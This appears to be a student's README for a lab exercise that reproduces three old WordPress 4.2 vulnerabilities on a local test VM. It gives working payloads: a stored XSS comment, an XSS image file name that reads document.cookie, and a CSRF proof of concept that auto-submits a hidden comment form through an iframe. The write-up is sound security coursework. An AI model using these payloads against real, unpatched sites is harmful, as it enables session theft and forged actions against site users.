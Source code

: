 # Project 7 - WordPress Pentesting

Time spent: 3 hours spent in total

> Objective: Find, analyze, recreate, and document 3 vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: inject java script code as a comment 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/first_exploit.gif)
  - [X] Steps to recreate: <br />
         -Leave a comment with the following content:<br />
         *\<b onmouseover="alert('This is just a vulnerability')">click me!\</b>*
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
### 2. Cross-Site Scripting with Image File
  - [X] Summary: Upload an image file with some javascript at the end of its file name
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.10
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/second_exploit.gif)
  - [X] Steps to recreate: <br />
        -create an image file or download an image file. <br />
        -add some javascript to the end of its filename. ex.(\<img src=# onerror=alert(document.cookie)>) <br />
        -upload file to wordpress
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
### 3. Cross Site Request Forgery
  - [X] Summary: Create a hidden form that can be submitted by another user when the page loads 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/third_exploit.gif)
  - [X] Steps to recreate: <br />
        -create a new comment that includes the javascript code for a new form <br />
        -below that comment create an iframe that will run the form when it loads <br />
        -refresh page <br /> 
        
        Proof of Concept:
          <form action="http://wpdistillery.vm/wp-comments-post.php" method="post" id="commentform2" class="comment-form" novalidate>
            <input name="comment" type="hidden" value="hello there">
            <input type="hidden" name="comment_post_ID" value="3" id="comment_post_ID">
            <input type="hidden" name="comment_parent" id="comment_parent" value="0">
            <input type="hidden" id="_wp_unfiltered_html_comment_disabled" name="_wp_unfiltered_html_comment" value="8bfe964cea">
           </form>

          <iframe src=# onload=document.getElementById('commentform2').submit()> </iframe>
          
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Ronuel Diaz]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
